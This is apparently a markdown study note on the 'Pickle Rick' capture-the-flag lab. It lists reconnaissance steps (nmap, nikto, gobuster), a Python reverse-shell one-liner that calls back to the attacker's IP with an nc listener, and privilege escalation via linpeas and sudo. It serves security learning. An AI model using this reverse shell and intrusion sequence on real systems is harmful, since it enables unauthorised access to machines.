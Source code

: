 # Pen-testing Set up demonstrated by John Hammond for the Pickle rick CTF

- step 1: make directory for resources
- Step 2: subl README.md
  - Add ip as export to note pad
    - export IP={IP}
    - nmap results
- Step 3: create nmap directory
  - nmap -sC -sV -oN [file location]} $IP
- Grab IP address

## Set up Nikto scanner
  - export IP={IP}
  - nikto -h http://$IP | tee nikto.log

# Set up gobuster
  - export IP
  - gobuster -u http://$IP -w /opt/rockyou.txt
  - gobuster -u http://$IP -w /opt/directory-list-2.3-medium.txt -x php.sh.txt, cgi, html, js, css, py


## Investigation options
- nmap
- could use hydra to brute force password
- gobuster
- investigate website for clues
- grep . clue.txt // grep -R . (return all files in folder - look at source code)

## Base64 string - add 'base64 -d' to get through the layers of the onion of base64
  - echo {base 64} | base64 -d | base64 -d

## Bypassing blacklist
- test what languages will work in text box
- pentestmonkey (reverse shell cheatsheet)
  - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{Change to my IP}",{Change to port 9999}))
- nc -lnvp 9999
- run above script in text box
### Stabalize shell
- github.com/johnHammond/poor-mans-pentest
- stabilize_shell3.sh
- upload_file_nc.sh /opt/linpeas.sh

- shm$ chmod +x linpeas.sh
- ./linpeas.sh
- sudo bash

  - identify my IP address
    - ip addr show tun0

## Task list
1. What is the first ingredient Rick needs?

2. Whats the second ingredient Rick needs?

3. Whats the final ingredient Rick needs?